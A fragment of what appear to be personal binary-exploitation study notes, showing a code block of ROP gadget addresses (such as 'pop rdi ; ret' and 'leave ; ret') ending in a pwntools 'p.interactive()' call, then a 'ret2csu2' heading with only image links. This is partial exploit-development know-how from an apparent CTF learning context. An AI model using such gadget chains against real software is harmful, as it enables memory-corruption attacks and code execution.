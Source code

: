 ```
# 0x0000000000400528 : pop rbp ; ret

# 0x0000000000400733 : pop rdi ; ret

# 0x0000000000400731 : pop rsi ; pop r15 ; ret

# 0x000000000040072d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret

# 0x000000000040049e : ret

# 0x0000000000400677 : ret 0x28

# 0x0000000000400696 : ret 0x3b

# 0x00000000004006ad : ret 0x70

  

# Gadgets information

# ============================================================

# 0x00000000004006c0 : leave ; ret

# 0x000000000040049e : ret

# 0x0000000000400677 : ret 0x28

# 0x0000000000400696 : ret 0x3b

# 0x00000000004006ad : ret 0x70

p.interactive()
```
### 8    ret2csu2
![[Pasted image 20240918124201.png]]
![[Pasted image 20240918124310.png]]
![[Pasted image 20240918124103.png]]

![[Pasted image 20240918124143.png]]
![[Pasted image 20240918124124.png]]



### 9    



10    
